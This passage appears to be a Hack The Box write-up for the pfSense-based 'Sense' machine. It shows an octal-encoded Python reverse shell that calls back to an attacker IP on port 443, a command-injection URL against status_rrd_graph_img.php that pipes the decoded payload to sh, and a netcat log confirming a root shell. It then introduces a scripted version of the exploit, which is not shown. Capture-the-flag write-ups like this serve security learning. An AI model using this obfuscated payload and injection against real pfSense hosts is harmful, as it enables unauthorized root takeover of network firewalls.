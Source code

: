 To verify our payload we can test with `printf`.

```
root@kali:~/htb/sense# printf '\160\171\164\150\157\156\40\55\143\40\47\151\155\160\157\162\164\40\163\157\143\153\145\164\54\163\165\142\160\162\157\143\145\163\163\54\157\163\73\163\75\163\157\143\153\145\164\56\163\157\143\153\145\164\50\163\157\143\153\145\164\56\101\106\137\111\116\105\124\54\163\157\143\153\145\164\56\123\117\103\113\137\123\124\122\105\101\115\51\73\163\56\143\157\156\156\145\143\164\50\50\42\61\60\56\61\60\56\61\64\56\61\60\42\54\64\64\63\51\51\73\157\163\56\144\165\160\62\50\163\56\146\151\154\145\156\157\50\51\54\60\51\73\40\157\163\56\144\165\160\62\50\163\56\146\151\154\145\156\157\50\51\54\61\51\73\40\157\163\56\144\165\160\62\50\163\56\146\151\154\145\156\157\50\51\54\62\51\73\160\75\163\165\142\160\162\157\143\145\163\163\56\143\141\154\154\50\133\42\57\142\151\156\57\163\150\42\54\42\55\151\42\135\51\73\47'

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.10",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
``` 
As we can see it decodes correctly. Now all we need to do is inject into the URL and pipe the output to `sh` to achieve a shell.

Start a netcat listener and browse to our crafted URL:

`https://10.10.10.60/status_rrd_graph_img.php?database=queues;printf+%27\160\171\164\150\157\156\40\55\143\40\47\151\155\160\157\162\164\40\163\157\143\153\145\164\54\163\165\142\160\162\157\143\145\163\163\54\157\163\73\163\75\163\157\143\153\145\164\56\163\157\143\153\145\164\50\163\157\143\153\145\164\56\101\106\137\111\116\105\124\54\163\157\143\153\145\164\56\123\117\103\113\137\123\124\122\105\101\115\51\73\163\56\143\157\156\156\145\143\164\50\50\42\61\60\56\61\60\56\61\64\56\61\60\42\54\64\64\63\51\51\73\157\163\56\144\165\160\62\50\163\56\146\151\154\145\156\157\50\51\54\60\51\73\40\157\163\56\144\165\160\62\50\163\56\146\151\154\145\156\157\50\51\54\61\51\73\40\157\163\56\144\165\160\62\50\163\56\146\151\154\145\156\157\50\51\54\62\51\73\160\75\163\165\142\160\162\157\143\145\163\163\56\143\141\154\154\50\133\42\57\142\151\156\57\163\150\42\54\42\55\151\42\135\51\73\47%27|sh`


```
root@kali:~/htb/sense# nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.60] 47018
sh: can't access tty; job control turned off
# id && hostname
uid=0(root) gid=0(wheel) groups=0(wheel)
pfSense.localdomain
```

And now we are root!

## Fully Scripted Exploit

I decided to try to build on the octal encoding script and fully script out the exploit. All you need to do is start a netcat listener and provide the required arguments to return a reverse shell.
I'm sure there are much better ways to do a lot of this but I'm still learning. It's also posted on Exploit-DB. Before I submitted to Exploit-DB I forgot to add some logic for when running the script without parameters so it will throw a TypeError. You can ignore that and just feed in the parameters correctly and it works fine. I've added the updated script below that will print the help instead when running the script without args.

